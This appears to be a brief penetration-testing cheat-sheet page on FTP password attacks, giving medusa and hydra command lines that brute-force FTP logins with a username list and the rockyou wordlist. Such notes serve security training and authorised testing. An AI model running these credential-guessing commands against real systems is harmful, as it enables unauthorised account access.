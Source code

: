 ```yaml
---
title: FTP
parent: Other Passwords
layout: default
nav_order: 1
---
```


medusa:\
`medusa -h IP -U usernames.txt -P /usr/share/seclists/rockyou.txt -M ftp -t 3`

hydra:\
`hydra -L usernames.txt -P /usr/share/seclists/rockyou.txt -s port ftp://IP`